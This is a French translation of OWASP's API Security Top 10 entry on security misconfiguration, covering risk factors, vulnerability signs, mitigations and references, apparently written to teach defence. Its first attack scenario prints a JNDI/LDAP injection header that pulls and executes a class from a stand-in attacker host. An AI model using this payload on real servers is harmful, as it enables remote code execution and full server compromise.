 # API8:2023 Security Misconfiguration

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Facile** | Technique **Grave** : Spécifique à l'organisation |
| Les attaquants cherchent souvent à trouver des failles non corrigées, des points d'accès courants, des services fonctionnant avec des configurations par défaut non sécurisées ou des fichiers et répertoires non protégés pour obtenir un accès non autorisé ou des informations sur le système. La plupart de ces informations sont publiques et des exploits peuvent être disponibles. | La mauvaise configuration de sécurité peut se produire à n'importe quel niveau de la pile API, du réseau à l'application. Des outils automatisés sont disponibles pour détecter et exploiter des configurations incorrectes telles que des services inutiles ou des options héritées. | Les mauvaises configurations de sécurité exposent non seulement des données utilisateur sensibles, mais aussi des détails système qui peuvent conduire à la compromission complète du serveur. |

## L'API est-elle vulnérable ?

L'API peut être vulnérable si :

* La sécurisation appropriée est absente à travers n'importe quelle partie de la pile API, ou si les permissions sur les services cloud sont mal configurées
* Les derniers correctifs de sécurité sont manquants, ou si les systèmes sont obsolètes
* Des fonctionnalités inutiles sont activées (par exemple, les verbes HTTP, les fonctionnalités de journalisation)
* Il y a des divergences dans la façon dont les requêtes entrantes sont traitées par les serveurs dans la chaîne du serveur HTTP
* La sécurité du transport (TLS) est absente
* Les directives de sécurité ou de contrôle de cache ne sont pas envoyées aux clients
* Une politique Cross-Origin Resource Sharing (CORS) est manquante ou mal configurée
* Les messages d'erreur incluent des traces de pile, ou exposent d'autres informations sensibles

## Exemple de scénarios d'attaque

### Scénario #1

Un serveur back-end d'API maintient un journal d'accès écrit par un utilitaire de journalisation open-source populaire avec prise en charge de l'expansion de paramètres et des recherches JNDI (Java Naming and Directory Interface), tous deux activés par défaut. Pour chaque requête, une nouvelle entrée est écrite dans le fichier journal avec le modèle suivant : `<méthode> <version_api>/<chemin> - <code_statut>`.

Un acteur malveillant émet la requête API suivante, qui est écrite dans le fichier journal d'accès :

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

En raison de la configuration par défaut non sécurisée de l'utilitaire de journalisation et d'une politique de sortie réseau permissive, pour écrire l'entrée correspondante dans le journal d'accès, tout en développant la valeur de l'en-tête de requête `X-Api-Version`, l'utilitaire de journalisation va extraire et exécuter l'objet `Malicious.class` du serveur contrôlé à distance par l'attaquant.

### Scénario #2

Un site web de réseau social propose une fonctionnalité de "Message Direct" qui permet aux utilisateurs de garder des conversations privées. Pour récupérer de nouveaux messages pour une conversation spécifique, le site web émet la requête API suivante (l'interaction de l'utilisateur n'est pas requise) :

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Parce que la réponse de l'API ne comprend pas l'en-tête HTTP `Cache-Control`, les conversations privées sont mises en cache par le navigateur web, permettant aux acteurs malveillants de les récupérer à partir des fichiers de cache du navigateur.

## Comment s'en prémunir ?

Le cycle de vie de l'API devrait inclure :

* Un processus de durcissement reproductible menant à un déploiement rapide et facile d'un environnement correctement sécurisé
* Une tâche pour examiner et mettre à jour les configurations dans toute la pile API. L'examen devrait inclure : les fichiers d'orchestration, les composants API et les services cloud (par exemple, les autorisations de compartiment S3)
* Un processus automatisé pour évaluer en continu l'efficacité de la configuration et des paramètres dans tous les environnements

De plus :

* Assurez-vous que toutes les communications API du client vers le serveur API et tout composant en aval/amont se font sur un canal de communication chiffré (TLS), qu'il s'agisse d'une API interne ou publique.
* Soyez spécifique sur les verbes HTTP par lesquels chaque API peut être accédée : tous les autres verbes HTTP devraient être désactivés (par exemple, HEAD).
* Les API s'attendant à être accessibles depuis des clients basés sur un navigateur (par exemple, une interface WebApp) devraient, au moins :
  * implémenter une politique Cross-Origin Resource Sharing (CORS) appropriée
  * inclure les en-têtes de sécurité applicables
* Restreignez les types de contenu/format de données entrants à ceux qui répondent aux exigences commerciales/fonctionnelles.
* Assurez-vous que tous les serveurs dans la chaîne du serveur HTTP (par exemple, les équilibreurs de charge, les proxies et les proxies inverses, ainsi que les serveurs back-end) traitent les requêtes entrantes de manière uniforme pour éviter les problèmes de désynchronisation.
* Lorsque cela est applicable, définissez et appliquez tous les schémas de charge utile de réponse API, y compris les réponses d'erreur, pour empêcher les traces d'exception et d'autres informations précieuses d'être renvoyées aux attaquants.

## Références

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externes

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/

